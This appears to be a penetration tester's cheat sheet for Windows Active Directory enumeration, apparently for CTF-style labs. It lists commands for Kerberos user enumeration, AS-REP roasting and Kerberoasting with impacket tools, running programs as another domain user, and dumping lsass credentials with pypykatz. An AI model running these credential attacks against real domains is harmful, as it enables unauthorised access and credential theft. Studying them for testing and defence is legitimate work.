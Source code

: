 # Windows Active Directory Enumeration.

#### check-list
- [PayloadAllTheThings](https://gitlab.com/pentest-tools/PayloadsAllTheThings/-/blob/6bcd2e8a6a39d26a547a70d83dfebef4c2c6f801/Methodology%20and%20Resources/Active%20Directory%20Attack.md)
- [S1ckB0y1337](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
- check ldap for system/users informations
- check smb for shares
- check rpcbind for system/users informations
- check impacket examples scripts
- generate usernames from `fname lname` wordlist [namemash.py](https://gist.githubusercontent.com/superkojiman/11076951/raw/74f3de7740acb197ecfa8340d07d3926a95e5d46/namemash.py)
```bash
# enuemrate valid users through kerberos
./kerbrute
# enumerate users do not require Kerberos preauthentication
GetNPUsers.py EGOTISTICAL-BANK.local/ -no-pass -usersfile usernames
# request other users krbt hash if you have a user cerdentials
GetUserSPNs.py
# runas user in a domain using credentials, or use bloodhound-python
runas /netonly /user:support cmd.exe
```
#### notes 
- use `runas` to connect to domain using user credentials and run bloodhound or use the credentials in bloodhoud from python
- lsass stores credentials that can be dumped using pypykatz